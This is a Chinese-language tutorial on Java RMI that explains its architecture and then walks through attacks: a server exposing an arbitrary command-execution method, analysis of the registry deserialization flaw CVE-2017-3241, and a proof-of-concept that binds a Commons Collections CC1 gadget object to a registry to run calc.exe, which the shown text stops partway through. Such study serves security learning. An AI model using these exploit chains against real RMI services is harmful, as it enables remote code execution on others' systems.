## RMI相关知识总结

### 前言

* 本文没有结合JDNI注入
* 本文没有详细分析JRMP协议
* 本文没有分析基于T3协议的RMI

### 介绍

* RMI简介：远程方法调用是分布式编程中的一个基本思想。实现远程方法调用的技术有很多，例如CORBA、WebService，这两种是独立于编程语言的。而Java RMI是专为Java环境设计的远程方法调用机制，远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法并获取执行结果，使分布在不同的JVM中的对象的外表和行为都像本地对象一样。

* RMI的使用场景：

> 假设A公司是某个行业的翘楚，开发了一系列行业上领先的软件。B公司想利用A公司的行业优势进行一些数据上的交换和处理。但A公司不可能把其全部软件都部署到B公司，也不能给B公司全部数据的访问权限。于是A公司在现有的软件结构体系不变的前提下开发了一些RMI方法。B公司调用A公司的RMI方法来实现对A公司数据的访问和操作，而所有数据和权限都在A公司的控制范围内，不用担心B公司窃取其数据或者商业机密。

* RMI由三部分组成：
  * RMI Server 服务端
  * RMI Client 客户端

  * RMI Register RMI Registry就像⼀个⽹关，他⾃⼰是不会执⾏远程⽅法的，但RMI Server可以在上⾯注册⼀个Name 到对象的绑定关系；RMI Client通过Name向RMI Registry查询，得到这个绑定关系，然后再连接RMI Server；最后，远程⽅法实际上在RMI Server上调⽤。

### 代码示例

Server由三部分构成：

*  ⼀个继承了 java.rmi.Remote 的接⼝，其中定义我们要远程调⽤的函数，⽐如这⾥的 hello()

```java
package com.individuals.RMIServer;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface IRemoteHelloWorld extends Remote {
    public String hello() throws RemoteException;
}

```

* ⼀个实现了此接⼝的类

```java
package com.individuals.RMIServer;

import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class RemoteHelloWorld extends UnicastRemoteObject implements
        IRemoteHelloWorld {
    protected RemoteHelloWorld() throws RemoteException {
        super();
    }
    public String hello() throws RemoteException {
        System.out.println("call from");
        return "Hello world666666";
    }
}
```

* ⼀个主类，⽤来创建Registry，并将上⾯的类实例化后绑定到⼀个地址。这就是我们所谓的Server 了

```java
package com.individuals.RMIServer;

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class RMIServer {

    private void start() throws Exception {
        RemoteHelloWorld h = new RemoteHelloWorld();
        LocateRegistry.createRegistry(1099);
        Naming.rebind("rmi://127.0.0.1:1099/Hello", h);
    }
    public static void main(String[] args) throws Exception {
        new RMIServer().start();
    }
}

```

客户端较为简单，但是有两点需要注意：

- 使用了继承了 java.rmi.Remote 的接⼝
- 使用Naming.lookup进行查找

```java
package com.individuals.RMIClient;

import com.individuals.RMIServer.IRemoteHelloWorld;
import java.rmi.Naming;
public class TrainMain {
    public static void main(String[] args) throws Exception {
        IRemoteHelloWorld hello = (IRemoteHelloWorld)
                Naming.lookup("rmi://192.168.201.109:1099/Hello");
        String ret = hello.hello();
        System.out.println(ret);
        System.out.println("over!");
    }
}

```

Register在刚刚的例子中，存在感不强，因为通常我们在新建一个RMI Registry的时候，都会 直接绑定一个对象在上面，也就是说我们示例代码中的Server其实包含了Registry和Server两部分

```java
LocateRegistry.createRegistry(1099);
Naming.rebind("rmi://127.0.0.1:1099/Hello", h);
```

如果RMI Registry在本地运行，那么host和port是可以省略的，此时host默认是 localhost ，port默认是 1099 

 ```java
LocateRegistry.createRegistry(1099);
Naming.rebind("Hello", h);
 ```

如果将Register和Server分开，可以将上面的代码更改为如下：

```java
import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;

public class RMIServer {

    private void start() throws Exception {
        RemoteHelloWorld h = new RemoteHelloWorld();
        // LocateRegistry.createRegistry(1099);
        Naming.rebind("rmi://ip:1099/Hello", h);
    }
    public static void main(String[] args) throws Exception {
        new RMIServer().start();
    }
}
```

```java
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Register {
    public static void main(String[] args) throws RemoteException, InterruptedException {
        Registry registry =  LocateRegistry.createRegistry(1099);
        System.out.println("RMI registry started on port 1099");

        // 保持程序运行
        synchronized (Register.class) {
            Register.class.wait();
        }
    }
}
```

这里分布式部署Register和Server氛围两种情况，1.两者处于不同服务器和不同JVM；2.两者处于统一服务器的同一JVM

### RMI的一些关键概念

* 远程方法调用过程中参数的传递和结果的返回：参数或者返回值可以是基本数据类型，当然也有可能是对象的引用。所以这些需要被传输的对象必须可以被序列化，这要求相应的类必须实现 java.io.Serializable 接口，并且客户端的serialVersionUID字段要与服务器端保持一致。
* 远程对象和非远程对象：远程对象是实现了 `java.rmi.Remote` 接口的对象，就是Client执行远程方法需要调用的对象；非远程对象是没有实现 `java.rmi.Remote` 接口的对象，在RMI中一般指的是远程方法调用中的参数和返回值。
* RMI对远程对象和非远程对象的处理方式是不一样的，非远程对象直接以序列化进行传递，远程对象没有被直接传递，而是借助Stub和Skeleton完成远程调用。
* Stub和Skeleton：Client在`Naming.lookup`向Register查找远程对象时，Register通过JRMP协议发送给了Client一些必要的数据，这些数据作为Client端Stun的参数，Stub基本上相当于是远程对象的引用或者代理（Java RMI使用到了代理模式）。Stub对开发者是透明的，客户端可以像调用本地方法一样直接通过它来调用远程方法。Stub中包含了远程对象的定位信息，如Socket端口、服务端主机地址等等，并实现了远程调用过程中具体的底层网络通信细节，所以RMI远程调用逻辑是这样的：



* 从逻辑上来说，数据是在Client和Server之间横向流动的，但是实际上是从Client到Stub，然后从Skeleton到Server这样纵向流动的：
  1. Server端监听一个端口，这个端口是JVM随机选择的；
  2. Client端并不知道Server远程对象的通信地址和端口，但是Stub中包含了这些信息，并封装了底层网络操作；
  3. Client端可以调用Stub上的方法；
  4. Stub连接到Server端监听的通信端口并提交参数；
  5. 远程Server端上执行具体的方法，并返回结果给Stub；
  6. Stub返回执行结果给Client端，从Client看来就好像是Stub在本地执行了这个方法一样；
* Regiter和Server的通信：上述的远程调用过程是Client如何调用Server上的方法，但是Client的Stun来自Register，而Register的Stun则来自于Server，当Server实现远程接口的类rebind到Register时，它将会向Register发送Stun。
* **RMI的传输是基于序列化的**：不管是传输Stun对象还是非远程对象，都是以序列化的方式传输

### JRMP

**JRMP**：Java Remote Message Protocol ，Java 远程消息交换协议。这是运行在Java RMI之下、TCP/IP之上的线路层协议。该协议要求服务端与客户端都为Java编写，就像HTTP协议一样，规定了客户端和服务端通信要满足的规范。

需要指出的是Weblogic采用的是T3协议传而非JRMP协议进行RMI通信。

## 对RMI的几种攻击

### 攻击存在危险方法的RMI Server

#### 攻击原理

* 远程方法实际上还是在Server上执行的，如果Server本身存在危险方法，则Client可以通过该危险方法主动攻击Server

示例代码如下

```java
// register
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Register {
    public static void main(String[] args) throws RemoteException, InterruptedException {
        Registry registry =  LocateRegistry.createRegistry(1099);
        System.out.println("RMI registry started on port 1099");

        // 保持程序运行
        synchronized (Register.class) {
            Register.class.wait();
        }
    }
}
```

```java
// server
import java.lang.reflect.InvocationTargetException;
import java.rmi.Remote;
import java.rmi.RemoteException;

public interface DangeriousFunc1 extends Remote {
    public void exec(String cmd) throws RemoteException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException;
}

import org.example.remoteInterface.DangeriousFunc1;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

// CmdServer的远程方法exec可以接收任意命令并执行
public class CmdServer extends UnicastRemoteObject implements DangeriousFunc1 {
    protected CmdServer() throws RemoteException {
    }

    @Override
    public void exec(String cmd) throws RemoteException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        // 获取Runtime类
        Class<?> clazz = Class.forName("java.lang.Runtime");
// 获取Runtime的方法exec(String str)
        Method execMethod = clazz.getMethod("exec", String.class);
// 获取Rumtime的方法getRuntime()
        Method getRuntimeMethod = clazz.getMethod("getRuntime");
// 执行Runtime.getRuntime()，获取对象runtime
        Object runtime = getRuntimeMethod.invoke(clazz);
// 执行runtime.exec("calc.exe")
        execMethod.invoke(runtime, cmd);
    }

    public static void main(String[] args) throws RemoteException, MalformedURLException {
        CmdServer cmdServer = new CmdServer();
        String host = "rmi://127.0.0.1:1099/";
        Naming.rebind(host+"Cmd", cmdServer);
    }
}
```

```java
// client
import org.example.remoteInterface.DangeriousFunc1;
import java.lang.reflect.InvocationTargetException;
import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;

public class AttackDangerServer {
    public static void main(String[] args) throws MalformedURLException, NotBoundException, RemoteException, ClassNotFoundException, InvocationTargetException, NoSuchMethodException, IllegalAccessException {
        DangeriousFunc1 dangeriousFunc1 = (DangeriousFunc1) Naming.lookup("rmi://127.0.0.1:1099/Cmd");
        dangeriousFunc1.exec("calc.exe");
    }
}
```

* 攻击的关键点在于如何探测危险方法，利用工具 BaRMIe [NickstaDB/BaRMIe: Java RMI enumeration and attack tool. (github.com)](https://github.com/NickstaDB/BaRMIe)可以探测目标RMI服务提供的远程对象和其父类


#### 攻击方法

* 通过目标的公开文档或者相关工具探测危险方法
* 客户端调用远程危险方法

### 对于RMI的Register进行反序列化攻击(CVE-2017-3241  Java RMI Registry.bind() Unvalidated Deserialization)

前面说过，RMI的传输是基于序列化的，Client和Register、Client和Server、Server和Register的交互都存在序列化和反序列化的操作，所以在反序列化的过程中就可能会存在反序列化攻击。

当我们将Register和Server部署在不同JVM上时，Server在bind远程对象到Register时，会发送Stun到Register，而这个过程中存在反序列化的操作。

```java
// register
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Register {
    public static void main(String[] args) throws RemoteException, InterruptedException {
        Registry registry =  LocateRegistry.createRegistry(1099);
        System.out.println("RMI registry started on port 1099");

        // 保持程序运行
        synchronized (Register.class) {
            Register.class.wait();
        }
    }
}
```

```java
import org.example.remoteInterface.DangeriousFunc1;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.RemoteException;
import java.rmi.server.UnicastRemoteObject;

public class CmdServer extends UnicastRemoteObject implements DangeriousFunc1 {
    protected CmdServer() throws RemoteException {
    }

    @Override
    public void exec(String cmd) throws RemoteException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {
        // 获取Runtime类
        Class<?> clazz = Class.forName("java.lang.Runtime");
// 获取Runtime的方法exec(String str)
        Method execMethod = clazz.getMethod("exec", String.class);
// 获取Rumtime的方法getRuntime()
        Method getRuntimeMethod = clazz.getMethod("getRuntime");
// 执行Runtime.getRuntime()，获取对象runtime
        Object runtime = getRuntimeMethod.invoke(clazz);
// 执行runtime.exec("calc.exe")
        execMethod.invoke(runtime, cmd);
    }

    public static void main(String[] args) throws RemoteException, MalformedURLException {
        CmdServer cmdServer = new CmdServer();
        // ip为开启register的服务器
        String host = "rmi://ip:1099/";
        Naming.rebind(host+"Cmd", cmdServer);
    }
}

```

还是之前的例子，但是将server与register分开在服务器不同部署，运行程序，发现server报错



这个异常产生的原因是，register侧检测到进行rebind或者bind操作的ip不是本地ip，默认情况下拒绝进行该操作。对该异常产生的原因进行追溯，抛出异常的代码在RegistryImpl的checkAccess方法中，但是在进一步追溯AccessController.doPrivileged的过程中，发现该方法为Native方法，遂放弃追溯



但是在网上查阅了众多资料后，发现Register并不支持非本地ip进行bind、rebind等操作，但是也有一些资料中指出，通过一些配置可以使得register支持远程server绑定，这里暂时搁置，待后续补充。

使用wireshark抓包，查看server bind到Register时发送的报文：





正如我们之前所说，在server bind到register时，会发送stun所必须的数据到register，发送的过程是基于序列化的，这里也可以看到报文中存在序列化对象，而register也有响应报文，里面也包含了一个序列化对象。

我们这里暂时先不顾不同IP下不能进行bind的问题，先查看一下register对于stun的反序列化过程。通过返回的异常对象，可以查看到register的调用栈，我们这里定位到register的sun.rmi.registry.RegistryImpl_Skel.dispatch。**但是注意这里所使用的jdk版本为8u66，小于8u121。**



```java
public void dispatch(Remote var1, RemoteCall var2, int var3, long var4) throws Exception {
        if (var4 != 4905912898345647071L) {
            throw new SkeletonMismatchException("interface hash mismatch");
        } else {
            RegistryImpl var6 = (RegistryImpl)var1;
            String var7;
            Remote var8;
            ObjectInput var10;
            ObjectInput var11;
            switch (var3) {
                case 0:
                    try {
                        var11 = var2.getInputStream();
                        var7 = (String)var11.readObject();
                        var8 = (Remote)var11.readObject();
                    } catch (IOException var94) {
                        throw new UnmarshalException("error unmarshalling arguments", var94);
                    } catch (ClassNotFoundException var95) {
                        throw new UnmarshalException("error unmarshalling arguments", var95);
                    } finally {
                        var2.releaseInputStream();
                    }

                    var6.bind(var7, var8);

                    try {
                        var2.getResultStream(true);
                        break;
                    } catch (IOException var93) {
                        throw new MarshalException("error marshalling return", var93);
                    }
                case 1:
                    var2.releaseInputStream();
                    String[] var97 = var6.list();

                    try {
                        ObjectOutput var98 = var2.getResultStream(true);
                        var98.writeObject(var97);
                        break;
                    } catch (IOException var92) {
                        throw new MarshalException("error marshalling return", var92);
                    }
                case 2:
                    try {
                        var10 = var2.getInputStream();
                        var7 = (String)var10.readObject();
                    } catch (IOException var89) {
                        throw new UnmarshalException("error unmarshalling arguments", var89);
                    } catch (ClassNotFoundException var90) {
                        throw new UnmarshalException("error unmarshalling arguments", var90);
                    } finally {
                        var2.releaseInputStream();
                    }

                    var8 = var6.lookup(var7);

                    try {
                        ObjectOutput var9 = var2.getResultStream(true);
                        var9.writeObject(var8);
                        break;
                    } catch (IOException var88) {
                        throw new MarshalException("error marshalling return", var88);
                    }
                case 3:
                    try {
                        var11 = var2.getInputStream();
                        var7 = (String)var11.readObject();
                        var8 = (Remote)var11.readObject();
                    } catch (IOException var85) {
                        throw new UnmarshalException("error unmarshalling arguments", var85);
                    } catch (ClassNotFoundException var86) {
                        throw new UnmarshalException("error unmarshalling arguments", var86);
                    } finally {
                        var2.releaseInputStream();
                    }

                    var6.rebind(var7, var8);

                    try {
                        var2.getResultStream(true);
                        break;
                    } catch (IOException var84) {
                        throw new MarshalException("error marshalling return", var84);
                    }
                case 4:
                    try {
                        var10 = var2.getInputStream();
                        var7 = (String)var10.readObject();
                    } catch (IOException var81) {
                        throw new UnmarshalException("error unmarshalling arguments", var81);
                    } catch (ClassNotFoundException var82) {
                        throw new UnmarshalException("error unmarshalling arguments", var82);
                    } finally {
                        var2.releaseInputStream();
                    }

                    var6.unbind(var7);

                    try {
                        var2.getResultStream(true);
                        break;
                    } catch (IOException var80) {
                        throw new MarshalException("error marshalling return", var80);
                    }
                default:
                    throw new UnmarshalException("invalid method number");
            }

        }
    }
```

**这个 `dispatch` 的代码逻辑很简单，用于处理 RMI 调用，执行基于方法编号的操作。从case 0到case 4，对应到rmi中的bind、list、lookup、rebind和unbind等操作。我们可以看到每个case下的操作逻辑都是类似的，除list没有反序列化操作后，都是先进行了反序列化操作，然后在进行RegistryImpl.bind、list等操作，结合异常抛出信息，我们发现，异常的抛出是在反序列化之后，即RegistryImpl.rebind时产生的，所以即使远端server bind、rebind、unbind到register会抛出异常，但是并不影响我们的反序列化攻击。而且，这里我们也可以看到客户端调用lookup也可以在这里触发反序列化操作，所以客户端也可以对Register发起攻击。**

根据之前抓到的报文，可以推测这里序列化的对象大概率就是server发送过来的stun对象，但是我们还是得追溯一下代码确定一下。

查看之前的抛出的异常，我们定位到RegistryImpl_Stub.rebind，查看序列化对象是如何被发送出的。



```java
public void rebind(String var1, Remote var2) throws AccessException, RemoteException {
        try {
            RemoteCall var3 = super.ref.newCall(this, operations, 3, 4905912898345647071L);

            try {
                ObjectOutput var4 = var3.getOutputStream();
                var4.writeObject(var1);
                var4.writeObject(var2);
            } catch (IOException var5) {
                throw new MarshalException("error marshalling arguments", var5);
            }

            super.ref.invoke(var3);
            super.ref.done(var3);
        } catch (RuntimeException var6) {
            throw var6;
        } catch (RemoteException var7) {
            throw var7;
        } catch (Exception var8) {
            throw new UnexpectedException("undeclared checked exception", var8);
        }
    }
```

这里有明显的序列化操作，在同一个输出流中序列化了两个对象，我们为该方法打上断点



传入的第一个参数为rebind所绑定到的Path，第二个参数则为我们的远程对象。这里由于笔者的java水平有限，就不继续追溯server侧的代码了，我们对wireshark抓取的报文进行分析，也能印证之前的想法


让我们查看发送的序列化对象，可以看到我们写入的两个对象



我们再回到register侧，在sun.rmi.registry.RegistryImpl_Skel.dispatch打上断点，查看传入的参数是怎么样的



第一个参数是一个远程对象，代表服务器端的实现对象。在这个方法中，它被转换为 `RegistryImpl` 对象（`RegistryImpl var6 = (RegistryImpl)var1;`）。`RegistryImpl` 是 RMI 注册表的实现类，负责管理远程对象的绑定、查找等操作。这个对象并非server侧传输而来。

第二个参数即对应server侧`RemoteCall var3 = super.ref.newCall(this, operations, 3, 4905912898345647071L);`

第三四个参数，则对应server侧，RemoteCall对象中传入的3和4905912898345647071L。

#### <jdk8u121,<JDK7u13,<JDK6u141版本下通过bind、rebind、lookup、unbind对Register的攻击

通过前面的分析可知，只要在bind或者rebind时，绑定一个恶意对象到Register，即可实现对Register的反序列化攻击。而且我们发现在尽显lookup和unbind时，在Register也会触发反序列化，不过它俩相对特殊，因为客户端在进行lookup或者服务端进行unbind到Register时，他们传入的参数为String类型，实现恶意对象的传入需要做一些特别处理。

##### bind和rebind

这里bind和rebind几乎相同，以rebind为例：

使用CC1攻击的poc代码如下

```java
import org.example.payload.CC1;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.net.MalformedURLException;
import java.rmi.Naming;
import java.rmi.Remote;
import java.rmi.RemoteException;

public class CC1AtackRegister  {
    public static void main(String[] args) throws RemoteException, MalformedURLException, ClassNotFoundException, InvocationTargetException, NoSuchMethodException, InstantiationException, IllegalAccessException {
        // CC1.getObject()返回值是CC1的恶意对象
        InvocationHandler evalObject  = (InvocationHandler) CC1.getObject();
        // 由于rebind的参数类型的限制，这里需要在恶意对象外包裹一层Remote
        // 因为CC1的恶意对象实现了接口InvocationHandler，这里可以使用动态代理的方式将其封装
        // 因为反序列化存在传递性，当proxyEvalObject被反序列化时，evalObject也会被反序列化，自然也会执行poc链
        Remote proxyEvalObject = (Remote) Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[]{Remote.class}, evalObject);
        String host = "rmi://192.168.110.146:1099/";
        Naming.rebind(host+"CC1", proxyEvalObject);
    }
}
```

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static Object getObject() throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" }),
        };

        Transformer transformerChain = new
                ChainedTransformer(transformers);

        Map innerMap = new HashMap();

